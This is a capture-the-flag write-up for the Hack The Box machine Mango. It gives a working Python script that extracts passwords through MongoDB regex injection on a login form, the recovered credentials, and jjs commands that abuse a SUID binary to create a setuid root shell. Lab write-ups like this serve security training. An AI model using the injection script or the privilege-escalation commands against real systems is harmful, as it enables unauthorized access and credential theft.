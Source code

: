 # Craft

<h1 align="center">
  <br>
  <a href="https://www.hackthebox.eu/home/machines/profile/214"><img src="images/img.png" alt="mango"></a>
  <br>
</h1>
<h4 align="center"> Author: <a href="https://www.hackthebox.eu/home/users/profile/13531" > MrR3boot  </a> </h4>

***

__Machine IP__: 10.10.10.162

__DATE__ : 10/11/2019

__START TIME__: 10:52 PM

***

## Nmap

![](images/nmap.png)

There's an HTTP and HTTPS service running. Let's start enumeration those.

***

## HTTP/HTTPs

If we try to visit the website on port 80 then we get a `403`(forbidden) error.

![](images/website.png)

If we open the port `443` we can see a website that looks like `google` search page.

![](images/website1.png)

Since this website was under SSL I decided to checkout the certificate.

![](images/cn.png)

We can see that there is a `domain` name `staging-order.mango.htb` so I edited my `/etc/hosts` with the following entries.

```
10.10.10.162 mango.htb
10.10.10.162 staging-order.mango.htb
```

And then opened that domain in the browser and got a login page.

![](images/website2.png)

Now at this point I was bit lost so I decided to read the forum comments. And in quite a few I found people pointing out `find technology having similar name as mango`. This could mean that they are talking about `mongo db`. I came across a CTF writeup [mongo-db-password-extraction](https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/)
I decided to try this one because other mongodb exploit didn't worked.

So to find the password we need to send one character at a time and if we get a redirect(302) that means that character is part of the password. I used the script and modified it according to my need:

```python
import requests
import string

flag = ""
url = "http://staging-order.mango.htb/index.php"

restart = True

while restart:
    restart = False

    for i in string.ascii_letters + string.digits + "!@#$%^()@_{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': "^"+payload + ".*", 'login': 'login'}
        # print(post_data)
        r = requests.post(url, data=post_data, allow_redirects=False)
        if r.status_code == 302:
            print(payload)
            restart = True
            flag = payload
            if i == "":
                print("\nUser: " + flag)
                exit(0)
            break
```
This gave me the password for admin account.

![](images/admin-password.png)

**Ignore those $ sign in the end**

`user admin, t9KcS3>!0B#2`

When I logged in I got a under construction page.

![](images/under.png)

So I decided to crack the password for user `mango` using the same technique.

![](images/mango-password.png)

`mango:h3mXK8RhU~f{]f5H`

But again the password didn't gave anything other than the under construction page.

Since I have password for both the user I decided to use them for SSH login. The admin credential didn't work but the `mango` one worked.

![](images/ssh.png)

I was `mango` I need to become user `admin` to get the user flag. So I did `su admin` and used the password we have for admin to become user `admin`.

![](images/user.png)


***

## Privelege escalation

I ran my enumeration script and found out some SUIDs but one of them was an interesting one.

![](images/suid.png)

I am talking about the `/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs`. Why? because I saw a file named `.jjs.history` in `/home/admin`

![](images/dir.png)

Also I found it on [gtfobins/jjs](https://gtfobins.github.io/gtfobins/jjs/).
(you can use [gtfo](https://github.com/mzfr/gtfo) tool if you want to search gtfobins from terminal)

I tried to run

```bash
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | jjs
```

this gave me the shell but I couldn't run any command or couldn't see anything being typed there. So I copied the `/bin/sh` to `/tmp/sh`, then made it `suid` and then did `/tmp/sh -p` to get a root shell.

```bash
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/cp /bin/sh /tmp/sh').waitFor()" | jjs

echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/chmod 4755 /tmp/sh').waitFor()" | jjs
```

Then do `/tmp/sh -p` to get the root shell

![](images/root-shell.png)

![](images/root.png)

**Make sure to remove the `/tmp/sh` file once you are done**


